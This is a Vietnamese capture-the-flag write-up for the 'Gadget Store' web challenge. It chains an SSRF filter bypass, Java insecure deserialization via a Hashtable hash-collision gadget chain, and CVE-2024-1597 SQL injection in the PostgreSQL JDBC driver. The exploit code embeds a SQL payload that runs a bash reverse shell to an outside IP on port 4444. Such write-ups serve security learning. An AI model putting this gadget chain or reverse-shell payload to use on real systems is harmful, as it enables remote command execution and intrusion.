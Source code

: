 +++
date = '2025-09-26T21:00:00+07:00'
draft = false
title = 'Gadget Store'
description = 'Phân tích nhanh gadget chain trong challenge Gadget Store (Smart Banking 6th)'
tags = ['ctf', 'java', 'deserialize', 'gadget chain']
+++
# Tóm tắt

Đây là một challenge web trong khuôn khổ sự kiện Smart Banking 6th.

Trang web là một cửa hàng cho phép người dùng mua hàng, các sản phẩm đã mua sẽ được lưu trong session. Khi người dùng export thông tin mua hàng, thông tin mua hàng sẽ được serialized và người dùng tải về, ngược lại người dùng cũng có thể upload file .ser (chứa data đã serialized) để import thông tin mua hàng mua mình.

# Solution

Bài này mình không làm được cho đến tận khi có writeup nên dưới đây chỉ là những thông tin mình tổng hợp và tóm tắt lại.

## Leak source code via SSRF

Trang web tồn tại lỗ hổng tại chức năng preview hình ảnh, server sẽ truy cập url được cung cấp bởi người dùng và trả về dữ liệu được base64 encoded.

Server đã filter một số protocol đọc file:

```java
public boolean isValidScheme(String scheme) {
        return !scheme.contains("jar") && !scheme.contains("ftp") && !scheme.contains("jrt") && !scheme.contains("file");
}
```

Tuy nhiên ta vẫn có thể sử dụng protocol `url:classpath://` để lấy được source code (class file).

## Insecure Deserialization

Tồn tại lỗ hổng Insecure Deserialization tại method:

```java
public String importPurchases(HttpSession session, Part filePart) {
        [...SNIP...]
        try {
            Object obj = ois.readObject();
            if (!(obj instanceof List)) {
                var13 = "error:An error occurred when importing purchases";
                break label60;
            }

            List<Gadget> purchases = (List)obj;
            session.setAttribute("purchases", purchases);
            var7 = "success:Imported " + purchases.size() + " purchases";
        } catch (Throwable var10) {
            [...SNIP...]
        }
        [...SNIP...]
}
```

Như đã nói, trang web cho phép người dùng import thông tin mua hàng thông qua deserialized data, và cũng không có cơ chế kiểm tra đầu vào nào được triển khai, dẫn đến ta có thể deserialize tùy ý.

## SQL Injection

Thư viện `org.postgresql:org.postgresql:42.7.1` tồn tại [lỗ hổng SQL Injection](https://github.com/advisories/GHSA-24rp-q3w6-vc56).
Để khai thác lỗ hổng này ta cần một số điều kiện.

![Điều kiện khai thác CVE-2024-1597](images/image.png)

Thật may mắn làm sao khi mọi điều kiện đều được thỏa mãn:

```java
private DataSource getDataSource() throws SQLException {
        String url = String.format("jdbc:postgresql://%s:5432/%s?user=%s&password=%s&ssl=false&connectTimeout=10", this.host, this.database, this.user, this.password);
        DataSource dataSource = new DataSource(this.getProperties(url));
        return dataSource;
}
```

## Exploit chain

Để có thể khai thác được SQLi, ta cần chạm được đến method `equals()` của class `UserDAO` kèm với một Map object chứa các value đã được ta kiểm soát.
Ta có thể đạt được điều này nhờ kết hợp với lỗ hổng Insecure Deserialize bên trên.
Có được gadget chain như sau:

```java
java.util.Hashtable.readObject()
    java.util.Hashtable.reconstitutionPut()
        java.util.AbstractMap.equals()
            dao.UserDAO.equals()
```

Về cơ bản chain này lợi dụng hash collision các key của Hashtable để gọi đến method `equals()` của key bên trong nó.
Nhưng mình sẽ giải thích kỹ một chút các ta tạo ra hash collision.

Dưới đây là code exploit

```java
UserDAO userDAO = new UserDAO();
Database db = new Database();
Field pwField = db.getClass().getDeclaredField("password");
pwField.setAccessible(true);
pwField.set(db, "9def3b1c8a63051a5cdf91ed1b35edfa&preferQueryMode=simple");

LinkedHashMap<String, Object> map = new LinkedHashMap<>();
map.put("amount", Double.valueOf(-100.0D));
map.put("username", "\n;CREATE TEMP TABLE output_table (line text);COPY output_table FROM PROGRAM $$bash -c \"bash -i >& /dev/tcp/160.250.134.146/4444 0>&1\"$$; --");
LinkedHashMap<String, Object> map1 = new LinkedHashMap<>();
map1.put("12", userDAO);
map1.put("34", map);
LinkedHashMap<String, Object> map2 = new LinkedHashMap<>();
map2.put("34", userDAO);
map2.put("12", map);

Hashtable<Object, Object> hashtable = new Hashtable<>();
hashtable.put(map1, 111);
hashtable.put(map2, 222);
```

Khi hashtable được deserialize, key của các phần tử sẽ được tính toán hashCode trước khi put vào hashtable. Khi có hai key có cùng 1 hash, nó sẽ kiểm tra xem 2 key có giống nhau không bằng cách gọi hàm `equals()` của key.

![image](images/image-1.png)

Sau đây mình sẽ phân tích tại sao code exploit trên có thể tạo ra được hash collision.
Trước tiên ta cần biết cách class `LinkedHashMap` tính hashCode.
Về bản chất class `LinkedHashMap` không implement method `hashCode()` nên nó sử dụng method này của class `AbstractMap`.

![alt text](images/image-2.png)

Method `hashCode()` của entry (`LinkedHashMap$Entry`)

![alt text](images/image-3.png)

Nên ta có thể thay thế `LinkedHashMap` với những class extends `AbstractMap` và không tự triển khai method `hashCode()`.

Ví dụ ta có một object `linkedHasMap1` có 2 entry `<1, "string1">` và `<2, "string2">`, thì `hashCode` của nó sẽ là
```
hashCode(<1, "string1">) + hashCode(<2, "string2">) = hashCode(1) + hashCode("string1") + hashCode(2) + hashCode("string2")
```

Vậy ở code exploit phía trên `hashtable` có 2 `LinkedHashMap` với `hashCode` của `map1` là:
```
hashCode(<12, userDAO>) + hashCode(<34, map>) = hashCode(12) + hashCode(userDAO) + hashCode(34) + hashCode(map)
```
và `hashCode` của `map2`:
```
hashCode(<12, map>) + hashCode(<34, userDAO>) = hashCode(12) + hashCode(map) + hashCode(34) + hashCode(userDAO)
```
Rõ ràng là chúng bằng nhau với quy tắc hoán vị, vậy là ta đã thành công tạo ra hash collision để trigger được method `equals()`.

Phần còn lại của challenge là khai thác lỗ hổng SQL Injection để đọc được `/flag*.txt`

# Kết

Qua challenge này mình nhận ra một cách rõ ràng hơn là mình còn quá yếu trong món Java nói chung và Java Insecure Deserialization nói riêng, mình đã ngồi hơn 3 ngày chỉ để đi tìm gadget chain nhưng không được, tưởng "xa tận chân trời mà gần ngay trước mắt".